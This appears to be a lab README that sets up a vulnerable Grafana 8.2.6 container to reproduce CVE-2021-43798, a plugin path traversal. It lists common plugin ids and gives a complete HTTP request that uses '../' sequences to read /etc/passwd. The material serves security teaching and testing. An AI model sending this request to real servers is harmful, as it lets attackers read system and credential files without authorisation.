 # Grafana 8.x Plugin Module File Path Traversal (CVE-2021-43798)

[中文版本（Chinese Version）](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

In December 2021, a Twitter user disclosed a 0day vulnerability, that unauthenticated attackers could use this vulnerability to step up web path and download arbitrary files through a craft url of Grafana 8.x.

References:

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## Vulnerable environment

Execute following command to start a Grafana server 8.2.6:

```
docker compose up -d
```

After the server start, you can browse the login page at `http://your-ip:3000`, no credential for this vulnerability.

## Exploit

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use `../` to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as `alertlist`, here are some of common plugin ids:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Send following request to retrieve the `/etc/passwd` (you can replace the `alertlist` with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

![](1.png)
